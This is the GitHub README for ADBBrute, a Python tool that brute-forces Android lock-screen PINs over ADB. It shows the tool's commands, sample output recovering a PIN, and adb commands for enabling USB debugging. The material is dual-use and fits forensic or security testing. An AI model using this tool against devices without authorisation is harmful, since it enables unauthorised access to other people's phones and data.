 # About ADBBrute

**ADBBrute** was written to bruteforce access to any Android device with ADB enabled.

## Usage

Print the help to get all necessary information

```bash
$ python3 ADBBrute.py -h
usage: ADBBrute.py [-h] [--device DEVICE] [--type TYPE]

Android LockScreen Bruteforce

optional arguments:
  -h, --help       show this help message and exit
  --device DEVICE  Specify the device to bruteforce
  --type TYPE      Type of bruteforce (gui / locksettings
```

Without argument, all connected devices will be displayed:

```bash
$ python3 ADBBrute.py
[x] Please specify the device to bruteforce (--device)
 - 192.168.57.109:5555
```

Finally, you need to specify the supported bruteforce methods:

* gui
* locksettings

Once specified, you just have to wait few time to get your Android PIN:

```bash
$ python3 ADBBrute.py --device 192.168.57.109:5555 --type gui
[x] Getting information on 192.168.57.109:5555 - vbox86p (Samsung Galaxy S8)
Try 1234
Try 1111
Try 0000
PIN identified: 0000
```

## Enable USB-Debugging

### Via GUI:

Go to **Settings** > **About phone** and press on **build number** 7 times to enable developper mode.

Once enabled, go to **Settings** > **Developer options** and enable **USB debugging**


### Via ADB:

```bash
adb shell settings put global development_settings_enabled 1
adb shell setprop persist.service.adb.enable 1
```


## Author

Régis SENET ([rsenet](https://github.com/rsenet))


## Contributing

Bug reports and pull requests are welcome on [GitHub](https://github.com/rsenet/ADBBrute).

## License

The project is available as open source under the terms of the [GPLv3](https://www.gnu.org/licenses/quick-guide-gplv3.en.html)
